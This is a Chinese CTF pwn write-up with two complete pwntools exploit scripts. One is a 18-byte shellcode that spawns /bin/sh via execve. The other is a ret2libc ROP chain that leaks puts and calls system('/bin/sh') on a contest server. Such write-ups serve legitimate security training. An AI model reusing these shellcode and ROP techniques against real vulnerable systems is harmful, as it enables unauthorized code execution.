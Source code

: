 ```yaml
---
typora-copy-images-to: ./image
---
```


# shellcode

先检查，除了canary其它全开；read允许读入18字节，读入区域可执行

跟进`sub_11C9`,将除了rdi之外的值全部清空了

gdb调试一下

![image-20250414224526951](./image/image-20250414224526951.png)

发现我们输入的内容写入了rdi，所以就很好构造了

| 指令         | 大小 |
| ------------ | ---- |
| add rdi,10   | 0x4  |
| add rax,0x3b | 0x4  |
| syscall      | 0x2  |
| /bin/sh\x00  | 0x8  |

这里让rdi指向`/bin/sh\x00`，所以执行了rdi+10的指令

exp:

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = ''
post = 1
p = process('./pwn')
#p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
#gdb.attach(p)

payload = asm('''
add rdi,10
add rax,0x3b
syscall
''')
payload+=b'/bin/sh\x00'
p.sendline(payload)
print(hex(len(payload)))
p.interactive()
```

# 签到

简单的ret2libc，板子题

exp:

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'node2.tgctf.woooo.tech'
post = 31552
#p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')
#gdb.attach(p)

puts_got =  elf.got['puts']
puts_plt = elf.plt['puts']
pop_rdi = 0x0000000000401176
ret = 0x000000000040101a
main = elf.sym['main']
payload = b'a'*0x70+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.recvuntil(b'name.\n')
p.sendline(payload)
pause()
puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
pause()
log.info(puts_addr)
libc_base = puts_addr-libc.sym['puts']
sys = libc_base+libc.sym['system']
binsh = libc_base+next(libc.search('/bin/sh'))
payload2 = b'a'*0x70+b'b'*0x8+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(sys)
p.sendline(payload2)
p.interactive()
```

# 
